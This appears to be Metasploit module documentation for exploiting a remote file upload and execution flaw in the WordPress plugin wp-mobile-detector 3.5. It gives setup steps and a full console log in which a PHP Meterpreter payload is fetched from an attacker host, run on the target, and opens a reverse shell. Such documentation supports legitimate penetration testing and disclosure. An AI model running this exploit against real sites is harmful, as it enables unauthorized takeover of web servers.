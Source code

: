 ## Vulnerable Application

  wp-mobile-detector is a wordpress plugin which was removed from the wordpress site after this vulnerability
  was disclosed.  Version 3.5 and earlier can be directed to upload a file from a remote web server, and then
  the file can be executed by the client.

  Download [wp-mobile-detector](https://www.exploit-db.com/apps/bf8bdbac0b01e14788aa2d4a0d9c6971-wp-mobile-detector.3.5.zip)
  from Exploit-db since wordpress removed it.

  Due to its age, it may be difficult to install.  The install for the scenario later is:

  * Ubuntu 16.04.2
  * Apache 2.4.18
  * PHP 7
  * Wordpress 4.4.2

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/webapp/wp_mobile_detector_upload_execute```
  4. Do: ```set rhost [ip]```
  5. Do: ```set lhost [ip]```
  6. Do: ```set srvhost [ip]```
  7. Do: ```exploit```
  8. You should get a shell.

## Scenarios

### wp-mobile-detector 3.5 on Wordpress 4.4.2

  ```
  msf > use exploit/unix/webapp/wp_mobile_detector_upload_execute 
  msf exploit(wp_mobile_detector_upload_execute) > set rhost 2.2.2.2
  rhost => 2.2.2.2
  msf exploit(wp_mobile_detector_upload_execute) > set TARGETURI /wordpress/
  TARGETURI => /wordpress/
  msf exploit(wp_mobile_detector_upload_execute) > check
  [*] 2.2.2.2:80 The target appears to be vulnerable.
  msf exploit(wp_mobile_detector_upload_execute) > set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  smsf exploit(wp_mobile_detector_upload_execute) > set lhost 1.1.1.1
  lhost => 1.1.1.1
  msf exploit(wp_mobile_detector_upload_execute) > set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  msf exploit(wp_mobile_detector_upload_execute) > exploit
  [*] Exploit running as background job 2.
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  msf exploit(wp_mobile_detector_upload_execute) > [*] Starting Payload Server
  [*] Using URL: http://1.1.1.1:8080/ZWTgqwsiFL.php
  [*] Uploading payload via /wordpress/wp-content/plugins/wp-mobile-detector/resize.php?src=http://1.1.1.1:8080/ZWTgqwsiFL.php
  [+] Payload requested on server, sending
  [+] Sleeping 5 seconds for payload upload
  [*] Executing the payload via /wordpress/wp-content/plugins/wp-mobile-detector/cache/ZWTgqwsiFL.php
  [*] Sending stage (37514 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:47064) at 2017-10-20 22:54:04 -0400
  [+] Deleted ZWTgqwsiFL.php
  [*] Server stopped.
  ```

